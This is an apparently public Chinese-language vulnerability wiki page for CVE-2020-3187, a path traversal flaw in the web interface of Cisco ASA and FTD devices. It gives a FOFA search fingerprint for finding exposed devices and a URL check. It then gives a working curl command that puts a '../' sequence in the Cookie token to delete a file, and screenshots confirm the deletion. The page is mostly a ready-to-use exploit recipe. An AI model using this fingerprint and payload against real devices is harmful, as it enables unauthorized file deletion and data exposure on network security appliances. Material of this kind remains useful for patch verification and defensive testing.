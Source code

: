 # CISCO ASA设备任意文件删除漏洞 CVE-2020-3187

## 漏洞描述

Cisco ASA Software和FTD Software中的Web服务接口存在路径遍历漏洞，该漏洞源于程序没有对HTTP URL进行正确的输入验证。远程攻击者可通过发送带有目录遍历序列的特制HTTP请求利用该漏洞读取并删除系统上的敏感信息。

## 漏洞影响

Cisco ASA设备

![](http://wikioss.peiqi.tech/vuln/cisco-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

Cisco FTD设备

![](http://wikioss.peiqi.tech/vuln/cisco-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## FOFA

> [!NOTE]
>
> /+CSCOE+/
>
> Cisco-ASA

## 漏洞复现

访问 http://xxx.xxx.xxx.xxx/+CSCOE+/session_password.html 存在则可能出现此漏洞

![](http://wikioss.peiqi.tech/vuln/cisco-6.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

例如我们删除一张图片  http://xxx.xxx.xxx.xxx/+CSCOU+/csco_logo.gif

![](http://wikioss.peiqi.tech/vuln/cisco-7.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

使用 curl 发送请求

```shell
curl -H "Cookie: token=../+CSCOU+/csco_logo.gif" https://xxx.xxx.xxx.xxx/+CSCOE+/session_password.html
```

![](http://wikioss.peiqi.tech/vuln/cisco-8.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

成功删除图标